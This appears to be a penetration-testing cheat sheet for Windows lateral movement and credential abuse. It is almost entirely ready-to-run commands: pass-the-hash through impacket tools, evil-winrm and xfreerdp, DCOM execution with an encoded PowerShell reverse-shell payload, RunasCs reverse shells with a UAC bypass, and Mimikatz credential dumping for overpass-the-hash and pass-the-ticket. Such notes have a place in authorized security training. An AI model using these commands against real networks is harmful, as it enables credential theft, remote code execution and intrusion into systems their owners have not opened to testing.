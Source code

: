
**Reuse local admin user's NTLM hash on other targets**

Psexec:
```bash
# Windows
./PsExec64.exe -i  \\<hostname> -u <domain>\<user> -p <pass> cmd

# Kali
impacket-psexec <domain>/<user>:<pass>@<IP>
impacket-psexec -hashes 00000000000000000000000000000000:<ntlm> <user>@<IP>
```

Wmiexec:
```bash
# Windows
wmic /node:<IP> /user:<user> /password:<pass> process call create "calc"

# Kali
impacket-wmiexec <domain>/<user>:<pass>@<IP>
impacket-wmiexec -hashes 00000000000000000000000000000000:<ntlm> <user>@<IP>
```

Winrm:
```bash
# Windows
winrs -r:<hostname> -u:<user> -p:<pass> "cmd /c hostname & whoami"

# Kali
evil-winrm -i <IP> -u <user> -p <pass>
evil-winrm -i <IP> -u <user> -H <ntlm>
```

RDP:
```bash
xfreerdp /v:<IP> /u:<user> /p:<pass> +clipboard
xfreerdp /v:<IP> /u:<user> /pth:<ntlm> +clipboard
```

DCOM:
```bash
# Windows
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","<IP>"))
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")

# Kali
impacket-dcomexec -object MMC20 <domain>/<user>:<pass>@<IP>
```

Runascs, run a command as another user in a terminal without RDP:
- https://github.com/antonioCoco/RunasCs/releases
```bash
# CMD reverse shell:
.\runasc.exe <user> <pass> cmd.exe -r <IP>:<port>

# Execute reverse shell
.\runasc.exe <user> <pass> shell-x64.exe

# UAC bypass
.\runasc.exe <user> <pass> cmd.exe -r <IP>:<port> --bypass-uac
```

Overpass the Hash: (Turn NTLM hash into Kerberos ticket)
```bash
# Get cached credentials using Mimikatz:
privilege::debug
sekurlsa::logonpasswords

# In Mimikatz use the NTLM hash to issue the attack:
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM> /run:powershell

# Generate a TGT by authenticating to a network share:
net use \\files04

# Use the TGT to PsExec into a system:
.\PsExec.exe \\files04 cmd
```

Pass the Ticket:
```bash
# Export TGT/TGS from memory using Mimikatz:
privilege::debug
sekurlsa::tickets /export

# List tickets:
dir *.kirbi

# Inject any TGS ticket into the current session using Mimikatz:
kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

# List the tickets:
klist

# This can give us access to a previously restricted share:
ls \\web04\backup
```
